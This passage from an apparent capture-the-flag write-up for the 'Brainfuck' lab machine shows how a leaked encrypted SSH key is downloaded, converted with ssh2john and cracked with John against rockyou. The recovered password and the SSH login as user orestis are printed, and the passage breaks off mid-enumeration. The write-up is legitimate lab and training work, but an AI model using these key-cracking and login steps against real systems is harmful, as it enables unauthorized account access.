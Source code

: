 ```bash
# download the encrypted private key
wget https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa \
	-P . -O id_rsa --no-check-certificate
# convert it into a john format
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
# prepare the wordlist for john
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# crack the key
john --wordlist=rockyou.txt id_rsa.hash
```

![john](./brainfuck/john.png)

Looks like the password is `3poulakia!`. Test this by trying to login by SSH as `orestis`:

```bash
# "protect" the private key so SSH does not complain
chmod 600 id_rsa
# use it authenticate
ssh -i ./id_rsa orestis@10.10.10.17
# find user.txt
find / -iname user.txt -exec ls -lad {} \; 2>/dev/null
```

![user](./brainfuck/user.png)

Nice! that is `user.txt`. During enumeration, there is an interesting file at `/home/orestis/encrypt.sage`:
